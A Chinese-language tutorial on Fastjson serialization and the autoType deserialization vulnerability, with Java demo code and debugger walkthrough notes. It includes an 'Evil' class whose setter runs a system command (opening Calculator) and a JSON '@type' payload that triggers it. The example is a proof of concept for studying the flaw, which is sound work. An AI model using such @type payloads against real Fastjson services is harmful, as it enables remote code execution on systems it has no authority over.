









# Fastjson 简介
> [Fastjson](https://github.com/alibaba/fastjson)是`Alibaba`开发的`Java`语言编写的高性能`JSON`库，用于将数据在`JSON`和`Java Object`之间互相转换，提供两个主要接口`JSON.toJSONString`和`JSON.parseObject/JSON.parse`来分别实现序列化和反序列化操作

# 序列化与反序列化
## 序列化

```java
/**
 * @Author: H3rmesk1t
 * @Data: 2021/12/1 9:34 上午
 */
public class Ctfer {
    private String ctfWay;
    private String name;
    private int age;

    public Ctfer() {
        System.out.println("This is constructor.");
    }

    public String getCtfWay() {
        System.out.println("getCtfWay");
        return ctfWay;
    }

    public void setCtfWay(String ctfWay) {
        System.out.println("setCtfWay");
        this.ctfWay = ctfWay;
    }

    public String getName() {
        System.out.println("getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }

    public int getAge() {
        System.out.println("getAge");
        return age;
    }

    public void setAge(int age) {
        System.out.println("setAge");
        this.age = age;
    }
}
```
```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.serializer.SerializerFeature;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/12/1 8:57 上午
 */
public class SerCtfer {
    public static void main(String[] args) {
        Ctfer ctfer = new Ctfer();
        ctfer.setName("h3rmesk1t");
        ctfer.setAge(20);
        ctfer.setCtfWay("Web");
        String jsonString1 = JSON.toJSONString(ctfer);
        String jsonString2 = JSON.toJSONString(ctfer, SerializerFeature.WriteClassName);
        System.out.println(jsonString1);
        System.out.println(jsonString2);
    }
}
```

> `SerializerFeature.WriteClassName`是`toJSONString`设置的一个属性值，当设置该属性后会在序列化时多写入一个`@type`，即写上被序列话的类名，`type`可以指定反序列化的类，并且调用其`getter/setter/is`方法



## 反序列化
> `parse`和`parseObject`两种方法的区别在于`parseObject`多了一步`toJSON`方法来处理传入的对象



```java
import com.alibaba.fastjson.JSON;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/12/1 9:15 上午
 */
public class UnSerCtfer {
    public static void main(String[] args) {
        String jsonString1 = "{\"age\":20,\"ctfWay\":\"Web\",\"name\":\"h3rmesk1t\"}\n";
        String jsonString2 = "{\"@type\":\"Ctfer\",\"age\":20,\"ctfWay\":\"Web\",\"name\":\"h3rmesk1t\"}";
        System.out.println("jsonString1:");
        System.out.println("[1]\n" + JSON.parse(jsonString1) + "\n");
        System.out.println("[2]\n" + JSON.parseObject(jsonString1) + "\n");
        System.out.println("[3]\n" + JSON.parseObject(jsonString1, Ctfer.class) + "\n");

        System.out.println("jsonString2:");
        System.out.println("[1]\n" + JSON.parse(jsonString2) + "\n");
        System.out.println("[2]\n" + JSON.parseObject(jsonString2) + "\n");
        System.out.println("[3]\n" + JSON.parseObject(jsonString2, Ctfer.class) + "\n");
    }
}
```
> 输出结果

```java
jsonString1:
[1]
{"age":20,"ctfWay":"Web","name":"h3rmesk1t"}

[2]
{"age":20,"ctfWay":"Web","name":"h3rmesk1t"}

This is constructor.
setAge
setCtfWay
setName
[3]
Ctfer@39ed3c8d

jsonString2:
This is constructor.
setAge
setCtfWay
setName
[1]
Ctfer@2d363fb3

This is constructor.
setAge
setCtfWay
setName
getAge
getCtfWay
getName
[2]
{"age":20,"ctfWay":"Web","name":"h3rmesk1t"}

This is constructor.
setAge
setCtfWay
setName
[3]
Ctfer@6f75e721
```
> 从输出结果中可以看到在没有`@type`时，因为没有确定到底属于哪个对象的，所以只能将其转换为一个普通的`JSON`对象而不能正确转换；加上`@type`后，可以看到`parse`成功触发了`set`方法，`parseObject`同时触发了`set`和`get`方法，因为这种`autoType`所以导致了`fastjson`反序列化漏洞

# 反序列化漏洞
> 在上面了解了`Fastjson`的`autoType`，反序列化漏洞产生的原因也是`get`或`set`方法中存在恶意操作，因此可以利用`autpType`来进行漏洞利用

```java
import java.io.IOException;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/12/1 10:47 上午
 */
public class Evil {
    private String name;
    private String shell;

    public Evil() {
        System.out.println("This is constructor.");
    }
    public String getName() {
        System.out.println("getName");
        return name;
    }
    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }
    public void setShell(String shell) throws IOException {
        System.out.println("setShell");
        Runtime.getRuntime().exec("open -a /System/Applications/Calculator.app");
    }
}
```
```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.serializer.SerializerFeature;

import java.io.IOException;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/12/1 10:49 上午
 */
public class SerEvil {
    public static void main(String[] args) throws IOException {
        Evil evil = new Evil();
        evil.setName("h3rmesk1");
//        evil.setShell("calc");
        String jsonString = JSON.toJSONString(evil, SerializerFeature.WriteClassName);
        System.out.println(jsonString);
    }
}
```
```java
import com.alibaba.fastjson.JSON;

import java.io.IOException;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/12/1 10:52 上午
 */
public class UnSerEvil {
    public static void main(String[] args) throws IOException {
        String jsonString = "{\"@type\":\"Evil\",\"name\":\"h3rmesk1\",\"shell\":\"calc\"}";
        System.out.println(JSON.parseObject(jsonString));
    }
}
```



> 可以看到成功触发了恶意代码，打断点来看看内部是如何执行的



> 跟进到`parseObject()`方法，接着进入到`parse()`方法





> 接着会调用`DefaultJSONParser()`方法



> 接着得到`nextToken()`中的`expect=12`进入`case`语句，并后续会继续进入到`parse`方法中进行`switch-case`语句判断




> 之后通过通过`scanSymbol`获取到`@type`指定类


> 然后通过`TypeUtils#loadClass`方法加载`Class`，继续往下调试最后会调用`set/get`方法

